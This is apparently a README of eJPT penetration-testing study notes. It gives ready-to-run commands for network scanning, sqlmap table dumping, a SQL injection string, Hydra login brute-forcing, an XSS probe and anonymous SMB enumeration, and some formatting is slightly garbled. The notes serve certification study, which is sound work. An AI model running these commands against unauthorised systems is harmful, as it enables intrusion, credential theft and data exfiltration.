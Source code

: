 # eJPT notes
Scripts and notes from eJPT certification 


## Host discovery:
### ```nmap -sn -T4 <IP/24>```     
Discovers all up hosts on network

### ```arp -a```                   
Prints arp table


## Routing/ pivoting:
### ```ip route show```            
Shows current routing table of hosts

### ```route```                   
Similar output as above

### ```ip route add <target network/24> via <ip>``` 
Adds static route to access other network


## Enumeration:
### ```nmap -sV -sC -p- -T4 <IP>``` 
Standard nmap scan to show port services and versions with verbose

### ```nmap -sU -sC -sV -p- -T4 <IP>```   
Same as above but with UDP option

### ```gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt```   
Standard Gobuster scan used


## Sqlmap:
### ```sqlmap -u "http://<url>/" -D <database> --tables```
### ```sqlmap -u "http://<url>/" -D <database> -T <table> --columns```
### ```sqlmap -u "http://<url>/" -D <database> -T <table> --dump```

### ```‘ or 1=1; – -```


## Hydra
### ```hydra <http://<url>> "/login.php:username=^USER^&password=^PASS^:invalid credentials" -L usernames.txt -P passwords.txt -f -V```


## Burpsuite
### ```Setup burp on browser: HTTP Proxy: 127.0.0.1	Port: 8080```


## XSS
### ```<script>alert(1)</script>```
Checks for XSS


## ftp
### ```ftp <IP>```


## SMB
### ```smbclient -L //<IP> -N
Checks for available shares

### ```smbclient //<IP>/IPC$ -N 
Connecting to a share

### ```enum4linux -a <IP>111

## Other tools that I forgot to take notes on during the test:
### Metasploit
### Wireshark
### John the Ripper

